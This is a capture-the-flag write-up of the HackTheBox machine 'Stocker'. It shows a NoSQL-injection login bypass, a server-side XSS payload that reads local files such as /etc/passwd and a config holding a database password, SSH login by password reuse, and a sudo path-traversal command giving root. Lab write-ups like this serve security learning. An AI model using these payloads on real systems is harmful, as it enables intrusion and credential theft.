 ```yaml
---
layout: post
title:  "Writeup of Stocker (HackTheBox)"
date:   2023-06-30 16:28:53 +0000
categories: htb, hackthebox
---
```


# Discovery
There isn't much on the main page **stocker.htb**, although there is one name:

```
Angoose Garden, Head of IT at Stockers Ltd.
```

It might be useful for bruteforcing credentials, or **Angoose** is a hint about **Mongoose**.

`ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.stocker.htb" -u http://stocker.htb -fs 178`

There is a subdomain **dev.stocker.htb**.

It's some **Express** app with a login page.

```
X-Powered-By: Express
```

# Injection

There is NoSQL injection in **dev.stocker.htb/login**

```
POST /login HTTP/1.1
Host: dev.stocker.htb
Content-Type: application/json

{
    "username": { "$ne": null },
    "password": { "$ne": null }
}
```

# API

By first making a `POST /api/order` with:

```json
{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8f",
      "title": "<script>document.body.append(window.location)</script>",
      "description": "It's a rubbish bin.",
      "image": "bin.jpg",
      "price": 76,
      "currentStock": 15,
      "__v": 0,
      "amount": 1
    }
  ]
}
```

We get:

```json
{"success":true,"orderId":"648317f7f5c3637ed798f97c"}
```

Then `GET /api/po/648317f7f5c3637ed798f97c` (returned id):

```
file:///var/www/dev/pos/648317f7f5c3637ed798f97c.html
```

**It's [server-side XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)!**

# Reading files

**We can read local files using:**

`<script>x=new XMLHttpRequest;x.onload=function(){document.body.innerHTML += btoa(this.responseText).replace(/(.{20})/g, '$1<br />')};x.open('GET','file:///etc/passwd');x.send();</script>`

- /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
```

- /var/www/dev/index.js

```
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

# SSH - angoose

`ssh angoose@10.10.11.196`

**angoose:IHeardPassphrasesArePrettySecure** works!

```
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

`sudo -l`

```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

`ls -la /usr/local/scripts`

```
-rwxr-x--x  1 root root  245 Dec  6  2022 creds.js
-rwxr-x--x  1 root root 1625 Dec  6  2022 findAllOrders.js
-rwxr-x--x  1 root root  793 Dec  6  2022 findUnshippedOrders.js
drwxr-xr-x  2 root root 4096 Dec  6  2022 node_modules
-rwxr-x--x  1 root root 1337 Dec  6  2022 profitThisMonth.js
-rwxr-x--x  1 root root  623 Dec  6  2022 schema.js
```

# Root

**RCE as root** - can execute any script by running:

`sudo /usr/bin/node /usr/local/scripts/../../../tmp/script.js`

By executing a reverse shell *(rev.js)* we get root.

`root.txt: <redacted>`
